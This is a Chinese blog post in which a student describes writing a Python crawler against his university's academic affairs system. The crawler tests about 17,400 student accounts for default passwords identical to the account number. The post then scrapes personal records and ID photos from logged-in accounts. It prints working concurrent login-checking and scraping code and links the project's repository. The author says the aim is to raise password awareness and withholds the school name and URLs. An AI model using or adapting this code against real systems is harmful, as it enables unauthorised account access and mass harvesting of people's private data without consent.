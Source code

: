 ```yaml
---
layout:     post
title:      "Python 第一个爬虫-教务系统信息收集"
subtitle:   ""
date:       2018-02-24 09:25:00
author:     "James"
header-img: "img/post-bg-2015.jpg"
catalog: true
tags:
    - 爬虫
---
```

## 初衷
**本文旨在提醒同学们及时修改密码，增强保护个人隐私的意识，因此代码中一些关键数据以及校名等信息不会公开！复制粘贴文章中的代码不会爬到任何东西。只是作为学习 Python 爬虫的一点总结而已！**
<!-- more -->
作者所在学校的教务系统安全防范措施可谓非常不严密，学生登录甚至不需要图形验证码。每年学生入学之后，学校下发的账号，初始密码不是无规律的，而是和账号完全一致！如果学生不及时修改密码，那么其他人可以轻松登录他的账号。登录后可以看到学生的学籍信息，包括高考报名时照片，家长联系方式等，联系地址甚至详细到几单元几楼几号门，**个人信息泄露情况非常严重！**

## 结果
先说结果。经过两天连写带调试，终于完成了对全校本科生 17400 多个在网账号的测试，其中有 12600 多个账号使用的还是初始密码。此处隐去校名，统计结果如下：

| 序号 | 学院 | 年级 | 在网账号 | 可爬账号 | 年级占比 |
| :-: | :-: | :-: | :-: | :-: | :-: |
|1   |本一   |2014   |3157   |1998   |63.29%   |
|2   |本一   |2015   |3328   |2234   |67.13%   |
|3   |本一   |2016   |3641   |3066   |84.21%   |
|4   |本一   |2017   |3497   |3326   |95.11%   |
|5   |本三   |2014   |1759   |303   |17.23%   |
|6   |本三    |2015   |1643   |620   |37.74%   |
|7   |本三    |2016   |1605   |1434   |89.35%   |
|8   |本三    |2017   |1552   |639   |41.17%   |

**介于初衷，只爬了 10 个账号的信息，以示严重性！**

![爬到的学籍信息](http://upload-images.jianshu.io/upload_images/7134080-ec8c310143b69f21.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

## 过程
本人之前做过近 2 年的 Java 相关开发，对 HTTP 协议中常用的知识了解一些，再加上 Python 出了名的简洁易用，因此入门还是比较轻松的。去年有一段时间研究过一阵子 Python，使用的是 Scrapy 框架，所以这一次我也首先想到了 Scrapy。

Scrapy 这种框架适用的情形是：已经获取了需要爬取的页面的一系列 URL ，或者 URL 是成一定规律变化的，不需要登录或者登录一次拿到 Cookie 就可以拿着这个 Cookie 一直用了。但是教务系统完全相反，它需要每次都进行登录，也许 Scrapy 有办法，但也不会太简单，索性自己写。

这套教务系统虽然安全性不怎么样，但也已是一套成熟的产品了，功能和稳定性上还是很不错的。

![系统的登录界面](http://upload-images.jianshu.io/upload_images/7134080-286f834fd46caf89.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

首先使用 Firefox 浏览器的开发者工具查看 HTTP 通信的一些信息：

![登录请求 ( POST )](http://upload-images.jianshu.io/upload_images/7134080-3ab0ec0d031193cc.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

登录表单通过 POST 请求进行提交，参数是账号和密码，发送的也是明文

![表单参数](http://upload-images.jianshu.io/upload_images/7134080-986180eedc73180d.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

服务器返回的响应中 Set-Cookie 就相当于给用户下发的令牌，用户下一次请求的时候带上这块令牌，服务器就能认出来这个用户是否刚登录过。这个令牌是有时间限制的，每次请求都会刷新一次时间，如果两次请求之间间隔时间超过设定值，那么服务器就不认识用户了，这次会话就结束了，需要重新登录。

![登录的响应体](http://upload-images.jianshu.io/upload_images/7134080-d14eaf5437d7dfc4.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

刚开始使用的是 requests ，用 for 循环实现，由于 requests 是同步的，所以效率很低，还会经常卡死。后来改成了协程，用的 gevent + urllib3，效率提升了上百倍。解析 HTML 用的 lxml 的 etree，图片的保存用 PIL 的 Image。

先引入依赖
```python
import sys
import logging
import gevent
import urllib3
import pathlib
from PIL import Image
from io import BytesIO
from lxml import etree
```
创建 HTTP 连接池
```python
http = urllib3.HTTPConnectionPool(
    host=settings.SERVER_HOST,
    port=settings.SERVER_PORT,
    strict=False,
    maxsize=100,
    block=False,
    retries=100,
    timeout=10
)
```

请求头的一些固定信息可以预先设定好，伪装浏览器
```python
header = {'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
    'Cache-Control': 'max-age=0',
    'Connection': 'Keep-alive',
    'Host': settings.SERVER_HOST,
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0'
}
```
登录并验证是否是初始密码
```python
# 账号校验器
class InfoValidate(object):
    def __init__(self):
        self.logger = InfoMain.logger
        self.http = InfoMain.http
        # 有效账号
        self.account_valid = []
        # 可爬账号
        self.account_available = []

    def validate(self, all_account):
        # 将所有校验过程加入队列
        jobs = [gevent.spawn(self.validate_account, self.http, a) for a in all_account]
        gevent.joinall(jobs, timeout=0)

    def validate_account(self, http, account):
        # 登录请求参数
        param = {"zjh": account, "mm": account}
        header = headers.header
        response = http.request('POST', settings.URL_LOGIN, fields=param, headers=header)
        self.logger.info('发送请求>>{}'.format(param))
        self.logger.info(response.status)
        # 响应体解码
        res_text = response.data.decode('GB2312', 'ignore')

        if res_text.find('密码不正确') > -1:
            # 密码有误
            self.account_valid.append(account)
        elif not res_text.find('证件号不存在') > -1:
            # 账号可爬
            self.account_available.append(account)
            self.account_valid.append(account)
            self.logger.info("账号可用>>>{}".format(account))
```
至此已经获取了所有初始密码未修改的账号了，下面研究一下，要爬取的学籍信息页的规律

![学籍信息页](http://upload-images.jianshu.io/upload_images/7134080-974fdb14f78e7210.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


![table 的结构](http://upload-images.jianshu.io/upload_images/7134080-ed103827cea8be42.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

一系列的信息都包裹在 ```<td width = "275"></td> ```之间，对应的 xpath 表达式即为 ```//td[starts-with(@width,"275")]/text()```

基于之前对账号的测试，爬取学籍信息

```python
# 信息收集器
class InfoCollect(object):
    def __init__(self):
        self.logger = InfoMain.logger
        self.http = InfoMain.http
        # 功能模块
        self.mod_get_roll_info = settings.MOD_ROLL_INFO
        self.mod_get_roll_img = settings.MOD_ROLL_IMG

    def get_info_queue(self, accounts):
        # 将所有信息收集过程加入队列
        jobs = [gevent.spawn(self.get_info, a) for a in accounts]
        gevent.joinall(jobs, timeout=0)

    def get_info(self, stuid):
        # 登录
        param = {'zjh': stuid, 'mm': stuid}
        response = self.http.request('POST', settings.URL_LOGIN, fields=param)
        # 保存 Cookie
        cookie = response.headers['Set-Cookie'].replace('; path=/', '')
        header = headers.header
        header['cookie'] = cookie
        # 学籍信息
        if self.mod_get_roll_info:
            # 带 Cookie 访问学籍信息页
            response_xjxx = self.http.request('GET', settings.URL_XJXX, headers=header)
            text = response_xjxx.data.decode('GB2312', 'ignore')
            # 解析页面内容
            selector = etree.HTML(text)
            text_arr = selector.xpath('//td[starts-with(@width,"275")]/text()')
            # 学籍信息
            result = []
            for info in text_arr:
                result.append(info.strip())
            self.save_info(result)
        # 学籍照片
        if self.mod_get_roll_img:
            response_xjzp = self.http.request('GET', settings.URL_XJZP, headers=header)
            image = Image.open(BytesIO(response_xjzp.data))
            setpath = settings.PATH_IMG_SAVE
            path = pathlib.Path(setpath)
            if not path.exists():
                path.mkdir()
            setpath = setpath + '/' + stuid + '.jpg'
            image.save(setpath)
            self.logger.info('保存照片>>>{}'.format(setpath))

        # 登出
        self.http.request('POST', settings.URL_LOGOUT, headers=header)
```

至此，已经实现了所有信息的获取以及照片的保存。

没改密码的同学们应该看到了，获取个人信息其实很简单，关键在于增强自己保护个人信息的意识。

相关开源项目：URP_Spider  [https://github.com/JamesZBL/URP_Spider](https://github.com/JamesZBL/URP_Spider)
